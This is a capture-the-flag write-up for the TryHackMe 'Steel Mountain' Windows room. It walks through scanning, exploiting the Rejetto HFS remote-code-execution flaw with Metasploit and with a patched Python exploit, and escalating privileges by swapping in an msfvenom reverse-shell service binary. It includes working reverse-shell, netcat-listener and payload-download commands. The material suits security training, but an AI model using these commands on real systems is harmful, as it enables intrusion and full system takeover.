

# Steel Mountain
This is a write up for the TryHackMe room [Steel Mountain](https://tryhackme.com/room/steelmountain).

## Table of Contents
- [Task 1 Introduction](#task-1-introduction)
  * [Question: Who is employee of the month?](#question--who-is-employee-of-the-month-)
- [Task 2 Initial Access](#task-2-initial-access)
  * [Question: Scan the machine with nmap. What is the other port running a web server on?](#question--scan-the-machine-with-nmap-what-is-the-other-port-running-a-web-server-on-)
  * [Question: Take a look at the other web server. What file server is running?](#question--take-a-look-at-the-other-web-server-what-file-server-is-running-)
  * [Question: What is the CVE number to exploit this file server?](#question--what-is-the-cve-number-to-exploit-this-file-server-)
  * [Question: Use Metasploit to get an initial shell. What is the user flag?](#question--use-metasploit-to-get-an-initial-shell-what-is-the-user-flag-)
- [Task 3 Privilege Escalation](#task-3-privilege-escalation)
  * [Question: What is the name of the service which shows up as an unquoted service path vulnerability?](#question--what-is-the-name-of-the-service-which-shows-up-as-an-unquoted-service-path-vulnerability-)
  * [Question: What is the root flag?](#question--what-is-the-root-flag-)
- [Task 4 Access and Escalation Without Metasploit](#task-4-access-and-escalation-without-metasploit)
  * [Question: What powershell -c command could we run to manually find out the service name?](#question--what-powershell--c-command-could-we-run-to-manually-find-out-the-service-name-)

<small><i><a href='http://ecotrust-canada.github.io/markdown-toc/'>Table of contents generated with markdown-toc</a></i></small>


## Task 1 Introduction


Press "Start Machine" and wait for the machine to boot up. Since it's a Windows machine it may take more than a minute to boot up fully.


### Question: Who is employee of the month?
- Hint: Reverse image search

1. Copy the target IP address and paste it into your web browser on your attack box or your own VPN-connected machine. You shold see the page shown below:
   <br/>

2. Right click and "View Page Source". 

3. Find the source of the `img` tag to find the answer.
    ```
    // snip //
    <h3>Employee of the month</h3>
    
    </center>
    // snip //
    ```

## Task 2 Initial Access

### Question: Scan the machine with nmap. What is the other port running a web server on?

1. In the previously opened Terminal window, type
   ```
    $ nmap -sV ´<target IP>
   ```
   The -sV option will give us versions of found services.

   Which will give the following reponse
   ```
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-05 18:32 EDT
    Nmap scan report for 10.10.57.65
    Host is up (0.048s latency).
    Not shown: 989 closed tcp ports (conn-refused)
    PORT      STATE SERVICE            VERSION
    80/tcp    open  http               Microsoft IIS httpd 8.5
    135/tcp   open  msrpc              Microsoft Windows RPC
    139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    3389/tcp  open  ssl/ms-wbt-server?
    8080/tcp  open  http               HttpFileServer httpd 2.3
    49152/tcp open  msrpc              Microsoft Windows RPC
    49153/tcp open  msrpc              Microsoft Windows RPC
    49154/tcp open  msrpc              Microsoft Windows RPC
    49155/tcp open  msrpc              Microsoft Windows RPC
    49156/tcp open  msrpc              Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 72.84 seconds
    ```
    2. As we can see there is also another `port 8080` using the http service, under the SERVICE column. This is the answer.

### Question: Take a look at the other web server. What file server is running?
    
1. As we can see from the nmap output above port 8080 uses "HttpFileServer httpd 2.3". 

2. Go to http://TARGET_IP:8080
    <br/> 
    <br>
    to view the page. There is also a confirmation of the "HttpFileServer 2.3" service being used.

3. Search for `HttpFileServer httpd 2.3` in your favorite search tool. You should find the full name "Rejetto HTTP File Server". 

### Question: What is the CVE number to exploit this file server?

1. One of the highest search hits is probably https://www.exploit-db.com/exploits/39161. This specific version of Rejetto File Server has a Remote Code Execution (RCE) vulnerability!
     <br/> 
     

### Question: Use Metasploit to get an initial shell. What is the user flag?
1. On you machine/attackbox start `msfconsole` i the terminal window to start Metasploit.

2. When Metasploit has started, type `search rejetto` to find available exploits for Rejetto File Server.


3. Write `use 0` to use the exploit.

4. We need to set a number of options for this exploit. Type `show options` to show all available options.
```
    msf6 exploit(windows/http/rejetto_hfs_exec) > show options

    Module options (exploit/windows/http/rejetto_hfs_exec):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    HTTPDELAY  10               no        Seconds to wait before terminating web server
    Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
    RPORT      80               yes       The target port (TCP)
    SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
    SRVPORT    8080             yes       The local port to listen on.
    SSL        false            no        Negotiate SSL/TLS for outgoing connections
    SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
    TARGETURI  /                yes       The path of the web application
    URIPATH                     no        The URI to use for this exploit (default is random)
    VHOST                       no        HTTP server virtual host


    Payload options (windows/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
    LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
    LPORT     4444             yes       The listen port


    Exploit target:

    Id  Name
    --  ----
    0   Automatic
 ```
5. We need to set all the required settings.
   - `set RHOSTS <target IP>`
   - `set RPORT 8080`
   - `set LHOST <Your local attack machine IP>`
   - `set LPORT 4444`
6. Start using the exploit by typing `exploit`. The process will take several minutes.
   Your output may be different. Sometimes you need to run the exploit again to ge a meterpreter prompt.

 ```
    msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

    [*] Started reverse TCP handler on <local IP>:4444 
    [*] Using URL: http://<local ip>:8080/CDSk0bJfMnY
    [*] Server started.
    [*] Sending a malicious request to /
    [*] Payload request received: /CDSk0bJfMnY
    [*] Sending stage (175174 bytes) to <target ip>
    [*] Meterpreter session 1 opened (<local IP>:4444 -> <target ip>:49201 ) at 2022-06-06 12:18:12 -0400

    [*] Meterpreter session 2 opened (<local IP>:4444 -> <target ip>:49210 ) at 2022-06-06 12:20:06 -0400
    [*] Server stopped.
    [!] This exploit may require manual cleanup of '%TEMP%\zrkpSycRfB.vbs' on the target

 ```
7. The hint here is `C:\Users\bill\Desktop` and if we move to that directory we find two files.

    

8. If we look inside the file with `cat user.txt` we find the flag!

## Task 3 Privilege Escalation

Follow the instructions in the Task to:
- Download the PowerUp-script file
- Upload it to the target machine
- Get a Powershell shell on the target
- Run the PowerUp-script and the call `Invoke-Allchecks`

### Question: What is the name of the service which shows up as an unquoted service path vulnerability?
The `Invoke-Allchecks` call will list a number of services. The Task tells us to find a service which has the `CanRestart` option set to true.



The answer is the `ServiceName`.

### Question: What is the root flag?
1. The task gives a script to generate a reverse shell. But the resulting file name in the script is `Advanced.exe`. But as you can see in the image above, the file that we need to replace is called `ASCService.exe`.

2. Open a new Terminal Window and run the following script instead (just replace the LHOST with you local IP).
    ```
    $ msfvenom -p windows/shell_reverse_tcp LHOST=<local IP> LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
    ```
3. As you can see from the msfvenom script, you need to set up a listener on your local machine on port 4443. In the same terminal windows, run:
    ```
    nc -lvnp 4443
    ``` 

4. In you other "PowerShell" terminal, exit the Powershell shell, byt pressing CTRL-C and typing "y".

5. Back in the meterpreter prompt, upload the `ASCService.exe`.

6. Start the Powershell shell again, with `powershell_shell`, since we need to run Powershell commands.

7. Stop the service with `Stop-Service -Name AdvancedSystemCareService9`. Otherwise you cannot replace the ASCService.exe file.

8. Replace the file by standing in the same directory as the new `ASCService.exe` file and run:
    ```
    cp ASCService.exe "/program files (x86)/iobit/advanced systemcare/" 
    ```
9. Start the service again with `Start-Service -Name AdvancedSystemCareService9`. The start up of the service will fail and give an error message, but now you have a reverse shell with your nc-listener.

10. In the reverse shell, go to `c:/users/administrator/desktop/` folder. There is a `root.txt` file.

11. View the root.txt file with `more root.txt`and you get the flag!

## Task 4 Access and Escalation Without Metasploit
In this task we are going to use the Python code found on the Exploit [Database-page](https://www.exploit-db.com/exploits/39161) that we saw earlier in Task 2.

The problem with this Python code is that is probably written in Python 2.x. At the time of writing Python 3.x is the standard, and there is a need for some minor code changes.

- `urllib2` has been split into new modules. So we need to use this line instead:
    ```
    from urllib.request import urlopen
    ```
- `print`-method requires parantheses in Python 3.
    ```
    print ("""[.]Something went wrong..!
    Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
    Don't forgot to change the Local IP address and Port number on the script""")
    ```
- The `vbs` variable is containing a Windows path, and need to have double backslashes to work. Replace the beginning of the string with:
    ```
    vbs = "C:\\Users\\Public\\script.vbs<rest of string>
    ```

1. Do the code changes above and also change the `ip_addr` variable in the Python code to your local IP. Set the port to 4444.

2. From the Task description, download the netcat static binary.

3. Start a web server on your local machine in the folder of the netcat static binary with:
    ```
    python3 -m http.server 80
    ```
4. Start a netcat listener on port 4444
    ```
    nc -lvnp 4444
    ```
5. Run the python script with
    ```
    python3 <your .py file> <target IP> 8080
    ```

   You should see that there is activity on your local web server.
    ```
    └─$ python3 -m http.server 80         
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.112.181 - - [06/Jun/2022 13:35:16] "GET /nc.exe HTTP/1.1" 200 -
    10.10.112.181 - - [06/Jun/2022 13:35:16] "GET /nc.exe HTTP/1.1" 200 -
    10.10.112.181 - - [06/Jun/2022 13:35:16] "GET /nc.exe HTTP/1.1" 200 -
    10.10.112.181 - - [06/Jun/2022 13:35:16] "GET /nc.exe HTTP/1.1" 200 -
    ```

6. Run the python script again, and you have a reverse shell!

7. Download winPEASAny.exe from [WinPeas Latest](https://github.com/carlospolop/PEASS-ng/releases/latest) (tag `20220605` at the time of writing) and make it available in the directory of your local web server.

8. In your remote shell, download with wget (alias for Invoke-WebREquest)
    ```
    powershell -c wget http://10.11.58.29/winPEASany.exe -OutFile "c:\\users\\bill\\desktop\\winPEASany.exe"
    ```
9. We already have a msfvenom payload on the server and already changed the .exe file for the service. As an exercise you could create a new payload and upload it with `wget` like we did with `winPeasAny.exe`.

    We now only have to restart the service again, as in step 7 and 9 in Task 3. We just need another netcat listener on port 4443 first.

    ```
    nc -lvnp 4443
    ```

10. When you start the service we have another remote shell:
    ```
    C:\Windows\system32>whoami
    whoami
    nt authority\system
    ```
    With administrator privileges again! This time without Metasploit.

### Question: What powershell -c command could we run to manually find out the service name?

Just googling "powershell find service name" will get the PowerShell command "Get-Service".


/Tommy